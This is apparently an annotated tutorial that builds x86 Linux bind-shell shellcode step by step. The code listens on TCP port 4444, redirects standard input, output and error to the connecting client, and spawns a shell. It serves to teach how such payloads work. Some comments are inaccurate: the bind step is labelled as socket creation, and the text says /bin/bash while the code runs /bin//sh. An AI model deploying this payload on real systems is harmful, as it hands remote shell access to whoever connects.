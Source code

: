; Author: Bobby Cooke

global _start

0. Corresponding System Calls to C Functions
    At the Assembly level, these C functions are all called with the same System Call, 102 - "socketcall": 
			socket(), bind(), connect(), listen(), accept() 
    Finding the SYSCAL Number: cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep "socket"
 					#define __NR_socketcall		102
    To differentiate between, for example, a socket() and bind() function, a corresponding value is held in EBX.
    These Values can be found with: cat /usr/include/linux/net.h. The values we need are listed below.
	#define SYS_SOCKET      1               /* sys_socket(2)                */
	#define SYS_BIND        2               /* sys_bind(2)                  */
	#define SYS_CONNECT     3               /* sys_connect(2)               */
	#define SYS_LISTEN      4               /* sys_listen(2)                */
	#define SYS_ACCEPT      5               /* sys_accept(2)                */
 Like all System Calls Linux, they are triggered when the Assembly instruction "int 0x80" is executed.
  At the time of the interrupt 0x80, the value stored in the EAX register determines which system call is called. 
   From above, we see the 5 C funtions we need all use the same system call at the Assembly level. 102 - "socketcall"
   Therefor for all functions, EAX will hold the value 102 (0x66 in Hex) everytime.
   The system call "socketcall" will know what to do (create a socket, listen, accept incoming connection, etc), 
   	based on the value stored in the EBX register. 
   The arguments of the C level function will be stored, declared by the value in EBX, will be in an array.
	This array is nothing more than consecutive values of the arguments stored one after another in a memory space.;	The memory space we will use is the Stack. Since Stack Memory grows from high memory to low memory, we will
	 need to store this array of values in reverse order.
	Once we have pushed our array of consecutive arguments onto the stack (in reverse order), all we need to 
	 do is simply point the ECX register to the top of the stack. 

 1. Create a Socket
    Default C Function:  int socket(int domain, int type, int protocol);
    Our C Function:	  int ipv4Socket = socket( AF_INET, SOCK_STREAM, 0 );
					    EBX     ECX[0]   ECX[1]     ECX[2]	     
	EAX = 102 = 0x66 // This is the value to call the SYSCAL "socketcall". We will use this for all the functions. 
	EBX = 1 = 0x1    // Value for socket() function relative to the SYSCAL "socketcall".
				#define SYS_SOCKET      1          // sys_socket(2)
	ECX[0] = AF_INET = 2 = 0x2
 		Find value of AF_INET: cat /usr/include/i386-linux-gnu/bits/socket.h | grep AF_INET
				#define AF_INET         PF_INET    // We see that AF_INET is mapped to PF_INET
		Find value of PF_INET: cat /usr/include/i386-linux-gnu/bits/socket.h | grep PF_INET
				#define PF_INET         2          // IP protocol family.
	ECX[1] = SOCK_STREAM = 1 = 0x1
 		Find value of SOCK_STREAM: cat /usr/src/linux-headers-$(uname -r)/include/linux/net.h | grep SOCK_STREAM
				SOCK_STREAM	= 1,
	ECX[2] = 0 = 0x0 // The value "0" is only option for the variable "int protocol"; for a TCP Socket.

```nasm
	xor eax, eax   	 ; This sets the EAX Register to NULL (all zeros).
	mov al, 0x66   	 ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
	xor ebx, ebx   	 ; This sets the EBX Register to NULL (all zeros).
	mov bl, 0x1    	 ; EBX is set to create a socket
	xor ecx, ecx   	 ; This sets the ECX Register to NULL (all zeros).
	push ecx       	 ; ECX[2]. ECX is NULL, the value needed for the first argument we need to push onto the stack
	push ebx       	 ; ECX[1]. EBX already has the value we need for ECX[1] we will simply use it to push the value 1.
	push dword 0x2 	 ; ECX[0]. Push the value 2 onto the stack, needed for AF_INET.
	mov ecx, esp   	 ; ECX now holds the pointer to the beginning of the Argument array stored on the stack.
	int 0x80       	 ; System Call Interrupt 0x80 - Executes socket(). Create the Socket.
  xchg esi, eax  	 ; After the SYSCAL, sockfd is stored in the EAX Register. Move it to the ESI Register; we will need it later.
```

2. Create IP-Socket Address and Bind the IP-Socket Address to the Socket.
    Default C Function:	int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    Our C Function:		bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
                       	EBX   ECX[0]			ECX[1]			ECX[2]
       EAX = 102 = 0x66 // This is the value to call the SYSCAL "socketcall". We will use this for all the functions. 
       EBX = 2 = 0x2    // Value for socket() function relative to the SYSCAL "socketcall".
			        #define SYS_BIND        2          // sys_bind(2) 
       ECX[0] = int sockfd = ESI 		// The Socket we created earlier and stored in the ESI register 
       ECX[1] = const struct sockaddr *addr 	// This will point to the Struct (array of variables) we will store onto
						    the Stack.
       ECX[2] = sizeof(ipSocketAddr)		// The Binary Length of the Struct we will store in ECX[1]
 This System Call is tricky because we will need to have an array within an array.
  ECX[1] will point to the start of an array of 3 variables.
   We will push these 3 variables onto the stack first, then we will push ECX[2], ECX[1], and finally ECX[0].
 This is the struct we used in C to store the IP-Socket Address values used for the bind() function call:
  struct sockaddr_in ipSocketAddr = { .sin_family = AF_INET, .sin_port = htons(4444), .sin_addr.s_addr = INADDR_ANY };
				         	 ARG[0]                 ARG[1]                         ARG[2]
	ARG[0] = AF_INET = 0x2 			// We know this value from the last SYSCAL we did.
	ARG[1] = htons(4444) =  0x5c11		// All this means is "4444" in Hex (0x115C), in reversei; since 
							everything pushed to the Stack needs to be in reverse.
	ARG[2] = INADDR_ANY = 0x00000000	// All Network Interfaces		
		Find value for INADDR_ANY: cat /usr/src/linux-headers-$(uname -r)/include/uapi/linux/in.h | grep INADDR_ANY
				#define INADDR_ANY ((unsigned long int) 0x00000000)
 The order to push all this on the stack will be:
	ARG[2] > ARG[1] > ARG[0] > ECX[2] > ECX[1] > ECX[0]

```nasm
  xor eax, eax      ; This sets the EAX Register to NULL (all zeros).
  mov al, 0x66      ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
  xor ebx, ebx      ; This sets the EBX Register to NULL (all zeros).
  mov bl, 0x2       ; EBX is set to create a socket
  xor edx, edx      ; This sets the EDX Register to NULL (all zeros).
  push edx          ; ARG[2]. EDX is NULL, the value needed for INADDR_ANY.
  push word 0x5c11  ; ARG[1]. This is for the TCP Port 4444.
  push bx           ; ARG[0]. Push the value 2 onto the stack, needed for AF_INET.
	xor ecx, ecx	    ; This sets the EAX Register to NULL (all zeros).
	mov ecx, esp	    ; Save the memory location of ARG[0] into the EDX Register. We will use this for ECX[1].
	push 0x10	        ; ECX[2]. Our Struct of ARG's is now 16 bytes long (0x10 in Hex). 
	push ecx	        ; ECX[1]. The pointer to the beginning of the struct we saved is now loaded up for ECX[1].
	push esi	        ; ECX[0]. This is the value we saved from creating the Socket earlier. 
	mov ecx, esp	    ; Now all that is left is to point ECX to the top of the loaded stack and let it do it's thing.
  int 0x80	        ; System Call Interrupt 0x80 - Executes bind(). Connecting our Socket to the TCP-IP Address.
```

3. Listen for incoming connections on Socket at IP-Socket Address.
    Default C Function:	int listen(int sockfd, int backlog);
    Our C Function:		listen( ipv4Socket, 0 );
                               EBX      ECX[0]   ECX[1]
       EAX = 102 = 0x66		// This is the value to call the SYSCAL "socketcall". 
       EBX = 4 = 0x4			// Value for listen() function relative to the SYSCAL "socketcall".
			        		#define SYS_LISTEN      4          // sys_listen(2)
       ECX[0] = int sockfd = ESI	// The Socket we created earlier and stored in the ESI register 
       ECX[1] = 0x0 	 		// We have no need for a backlog so this value will be 0.

```nasm
  xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
  mov al, 0x66     ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
  xor ebx, ebx     ; This sets the EBX Register to NULL (all zeros).
  mov bl, 0x4      ; EBX is set to listen().
  xor ecx, ecx     ; This sets the ECX Register to NULL (all zeros).
	push ecx	       ; ECX[1]. Push the value 0x0 to the stack.
  push esi         ; ECX[0]. This is the value we saved from creating the Socket earlier. 
  mov ecx, esp     ; Point ECX to the top of the stack. 
  int 0x80         ; Executes listen(). Allowing us to handle incoming TCP-IP Connections.
```

4. Accept the incoming connection on the listening Socket and create a new, connected socket for client.
    Default C Function: 	int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags);
    Our C Function:            int clientSocket = accept( ipv4Socket, NULL, NULL );
                               		    EBX     ECX[0]    ECX[1] ECX[2]
       EAX = 102 = 0x66                // This is the value to call the SYSCAL "socketcall".
       EBX = 5   = 0x5                 // Value for accept() function relative to the SYSCAL "socketcall".
						#define SYS_ACCEPT      5         // sys_accept(2)
       ECX[0] = int sockfd = ESI       // The Socket we created earlier and stored in the ESI register
       ECX[1] = NULL = 0x00000000
       ECX[2] = NULL = 0x00000000
       
```nasm
  xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
  mov al, 0x66     ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
  xor ebx, ebx     ; This sets the EBX Register to NULL (all zeros).
  mov bl, 0x5      ; EBX is set to accept().
  xor ecx, ecx     ; This sets the ECX Register to NULL (all zeros).
  push ecx         ; ECX[2]. Push the value 0x0 to the stack.
  push ecx         ; ECX[1]. Push the value 0x0 to the stack.
  push esi         ; ECX[0]. This is the value we saved from creating the Socket earlier. 
  mov ecx, esp     ; Point ECX to the top of the stack. 
  int 0x80         ; System Call Interrupt 0x80 - Executes accept(). Allowing us to create connected Sockets. 
  xchg ebx, eax	   ; The created clientSocket is stored in EAX after receiving a successful connection.
```

 5. Duplicate Standard Input, Standard Output, and Standard Error File-Descriptors to the newly created, connected Socket.
    Default C Function:        int dup2(int oldfd, int newfd);
    Our C Function:            dup2( clientSocket, 0 ); // STDIN
 			        dup2( clientSocket, 1 ); // STDOUT
				dup2( clientSocket, 2 ); // STDERR
                		EAX       EBX      ECX 
       EAX = 63 = 0x3F			//  This is the value to call the SYSCAL "dup2".
		Find Dup2 SYSCAL value: cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2
						#define __NR_dup2                63
       EBX = int oldfd = clientSocket		// Already set with "xchg ebx, eax" after the execution of accept().
       ECX = 2 & 1 & 0 = 0x2 & 0x1 & 0x0	// Since we need to do this SYSCAL 3 times, we will use a loop.
```nasm
  xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
	xor ecx, ecx	   ; This sets the ECX Register to NULL (all zeros). 
	mov cl, 0x2	     ; This sets the loop counter & will also be the value of "int newfd" for the 3 dup2 SYSCAL's.
dup2Loop:		       ; Procedure label for the dup2 Loop.
  mov al, 0x3f     ; EAX is now 0x0000003F = SYSCALL 63 - dup2
  int 0x80         ; System Call Interrupt 0x80 - Executes accept(). Allowing us to create connected Sockets. 
	dec ecx		       ; Decrements ECX by 1 
	jns dup2Loop	   ; Jump back to the dup2Loop Procedure until ECX equals 0.
```

6. Spawn a bash shell for the client in the newly created, connected Socket that has Input, Output, and Error output.
    Default C Function:       int execve(const char *filename, char *const argv[], char *const envp[]); 
    Our C Function:           execve("/bin/bash", NULL, NULL);
 Execve SysCall: In the newly created socket, execute a shell. - See "man 2 execve" for full details.
	int execve(const char *filename, char *const argv[], char *const envp[]);
 	Values in C program : execve("/bin/bash", NULL, NULL);
 	EAX = int execve() // System Call Number for execve
		user$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep execve
			#define __NR_execve		 11	
		EAX = 11
	EBX = const char *filename // Pointer to string in memory storing "/bin/bash" + NULL Terminated
				   //	NULL Terminated ends the string "0x00"
		EBX = address of string ("/bin/bash" + "0x00")
	ECX = char *const argv[]   // Array of argument strings passed to the new program.
				   // 	The first string should be a pointer to "/bin/bash".
				   //		 	#1 = Address of "/bin/bash" in memory
				   // 			#2 = DWORD (32bit) NULL = 0x00000000
		ECX = [ memory address of string "/bin/bash", 0x00000000 ]
	EDX =  char *const envp[]  // Array of strings which are passed as environment to the new program.
		EDX = 0x00000000
    
```nasm
	push edx 	        ; NULL
	push 0x68732f2f	  ; "hs//"
	push 0x6e69622f   ; "nib/"
	mov ebx, esp	    ; point ebx to stack
	mov ecx, edx	    ; NULL
	mov al, 0xb	      ; execve System Call Number
	int 0x80	        ; execute execve
```
